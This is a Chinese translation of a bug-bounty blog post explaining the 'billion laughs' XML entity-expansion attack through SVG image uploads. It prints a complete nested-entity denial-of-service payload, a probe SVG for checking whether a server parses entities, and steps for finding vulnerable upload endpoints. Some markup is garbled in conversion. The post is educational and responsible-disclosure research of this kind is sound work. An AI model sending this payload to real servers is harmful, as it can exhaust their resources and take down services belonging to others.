

# 用笑声杀死他们:“十亿个笑声”通过图片上传攻击

> 原文：<https://infosecwriteups.com/kill-em-with-laughter-the-billion-laughs-attack-through-image-uploads-4e9c57ca6434?source=collection_archive---------0----------------------->


黑客总是笑到最后。

> 声明:在你无权测试的系统上尝试这个是非法的。如果你发现了一个漏洞，请负责任地向程序披露。**这可不是闹着玩的……**

# 我们将复习的内容:

*   什么是十亿笑攻击？
*   如何在网站中找到并利用这个漏洞？
*   信用/资源

首先，介绍一下。你好，读者！我在网上的黑客化名是[思维摇摆](https://medium.com/u/3e3753492422?source=post_page-----4e9c57ca6434--------------------------------)，我是一名狂热的赏金猎人。两个月前，当我第一次加入 Hackerone 时，我开始了我的 bugbounty 之旅。这是我的第一篇关于一个非常有趣的漏洞类的博文，它有点复杂，所以我会尽可能清晰地解释它！

# 什么是十亿笑攻击？

有许多不同类型的“十亿次大笑”攻击，但我将通过图片上传来了解其中一种。为了解释这一点，我们必须回顾一些关于图像、图像类型以及它们如何上传到服务器的关键基础知识。

大多数人可能都熟悉常见的图像扩展名，如 PNG、JPEG 和 GIF。SVG 呢？没听说过？这种攻击可能通过图片上传的全部原因就在于此。

**上传个人资料图片时，让我们看看**[**POST**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)**请求中的典型 PNG 图像:**



红色圆圈指出了请求正文中的 PNG 图像

**现在让我们看一个典型的**[**SVG**](https://www.w3schools.com/graphics/tryit.asp?filename=trysvg_circle)**图片在**[**POST**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods)**请求上传期间:**

```
<svg height=”100" width=”100">
 <circle cx=”50" cy=”50" r=”40" stroke=”black” stroke-width=”3" fill=”red” />
</svg>^^Replace the PNG image above with this SVG image and some websites will treat it like a regular image and upload it.
```

有什么区别吗？

首先，SVG 看起来更像一种标记语言，而不是图像。SVG 由一种叫做 [XML](https://www.w3schools.com/XML/xml_whatis.asp) 的标记语言组成。SVG 上传本身不是一个漏洞，并且是常用的，但是它们很容易被修改成坏事。让我们通过 SVG 图像来理解十亿次笑声攻击是如何工作的。

**简单的 SVG 上传在** [**发布**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) **请求:**

```
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
]>
<svg>
<text>&lol;</text>
</svg>
```

让我们一行一行地过一遍。在 XML 中，有一个实体，类似于 python 中的变量。就像在 python 中设置变量一样:

```
x = "Hello World!"
```

您可以在 XML 中设置实体:

```
**<!ENTITY x** “Hello World!”*>*
```

要调用一个实体，您需要在它的前面加上一个&符号，在它的后面加上一个分号。所以如果我想调用实体`x`,我会这样做:

```
&x;
```

回到我们的例子，当我们看到第一行中的实体`lol`时，如果它被调用，SVG 图像会显示文本“lol”。现在让我们进入恶意的东西。

**亿笑攻击 SVG 有效载荷** [**帖子**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) **请求:**

```
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<svg>
<lolz>&lol9;</lolz>
</svg>
```

现在我们知道了实体和 XML 调用是如何工作的，我们可以开始讨论这种攻击是如何工作的。我们一行一行来看。首先，我们将实体`lol`设置为字符串值`"lol"`

```
<!ENTITY lol "lol">
```

接下来，我们设置实体`lol1`调用&lol；10 次:

```
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
```

我们还设置实体 lol2 调用`&lol1;` 10 次:

```
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
```

现在，假设我们在这里停下来调用`&lol1;`，发生的情况是，服务器端 XML 解析器必须调用 lol2，lol 2 被定义为`&lol1` 10 *乘以*。这只是针对它在`&lol2;`中看到的第一个`&lol1;`，解析器现在必须调用实体 10 次。

如果我们像在原始有效载荷中看到的那样再重复 7 次**该死的次数**，服务器将不得不解析 10⁹实体，导致它在十亿个 LOL 的笑声中死去**。**


这是一个很大的损失

# 如何在网站中找到并利用这个漏洞？

*图像上传。*查找 POST 请求中使用图像的每个实例，并用 SVG 替换它，看看服务器端 XML 阅读器是否会解析它。

测试它的一种方法是查看浏览器是否解析静态实体。例如，如果您已经确定了一个 SVG 上传，尝试添加这个小实体，看看服务器是否会用一些文本覆盖您的图像，检查它是否正在解析您的实体:

```
<!DOCTYPE testingxxe [ <!ENTITY xml "Hello World!"> ]> 
<svg xmlns:svg="[http://www.w3.org/2000/svg](http://www.w3.org/2000/svg)" ae mt" href="http://www.w3.org/2000/svg" rel="noopener ugc nofollow" target="_blank">http://www.w3.org/2000/svg" xmlns:xlink="[http://www.w3.org/1999/xlink](http://www.w3.org/1999/xlink)" width="200" height="200">
<image height="30" width="30" xlink:href="[https://yourimage.com](https://app.zivver.com/assets/img/shield.11ac41.svg)" /> 
<text x="0" y="20" font-size="20">&xml;</text> 
</svg>
```

如果有效，调用文本标签之外的实体，您的有效负载将会执行！

# 学分和额外资源:

我想真诚地感谢那些帮助我修改我的第一篇博客的人，请继续在 Twitter 上关注他们吧！

> @ goobstersec @ vflagger @ DBlackwoodSec

如果你喜欢这个博客，请务必关注我的下一篇文章，我将在文章中介绍我的第一个有效错误，它是一个导致 SSRF 的 SVG XXE。别担心，这比听起来简单多了！

有关所有内容的额外资源，请查看以下页面:

[](https://portswigger.net/web-security/xxe) [## 什么是 XXE (XML 外部实体)注入？教程和示例|网络安全学院

### 在这一节中，我们将解释什么是 XML 外部实体注入，描述一些常见的例子，解释如何…

portswigger.net](https://portswigger.net/web-security/xxe) [](https://en.wikipedia.org/wiki/Billion_laughs_attack) [## 十亿次大笑攻击

### 从维基百科，计算机安全的免费百科全书，十亿次大笑攻击是一种拒绝服务…

en.wikipedia.org](https://en.wikipedia.org/wiki/Billion_laughs_attack) [](https://www.w3schools.com/graphics/svg_intro.asp) [## SVG 教程

### SVG 代表可缩放矢量图形。SVG 以 XML 格式定义了基于矢量的图形。通过我们的“亲自尝试”…

www.w3schools.com](https://www.w3schools.com/graphics/svg_intro.asp) 

XML 思维导图

